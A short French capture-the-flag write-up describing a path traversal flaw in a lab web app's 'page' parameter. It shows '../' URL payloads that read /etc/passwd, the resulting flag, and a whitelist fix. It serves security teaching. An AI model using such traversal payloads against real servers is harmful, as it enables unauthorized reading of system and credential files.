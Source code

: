 # Explication

nom de la faille: URL_path

En testant plusieurs, valeurs différentes sur le paramètre page de l'URL.

On constate que à chaque fois qu'on descend en profondeur dans l'arborescence.

http://10.11.200.169?page=../../../../etc/passwd

Le message d'alert change.

Arrivé à une profondeur de 7 et + .

http://10.11.200.169/?page=../../../../../../../etc/passwd

On obtient le flag: `b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0`

# Comment profiter de la faille ?

Dans les anciennes versions d'Unix, dans le fichier /etc/passwd. Il y avait le mot de passe et le nom des users en clair.
Aujourd'hui en ayant accès à ce fichier, nous pouvons juste lister le nom des users sur le serveur.

# Comment la fix

Afin d'éviter cette faille, une `whitelist` doit être présente dans un fichier de configuration sur le serveur ou sur la base de donnée qui contient la liste que le paramètre page peut accepter.
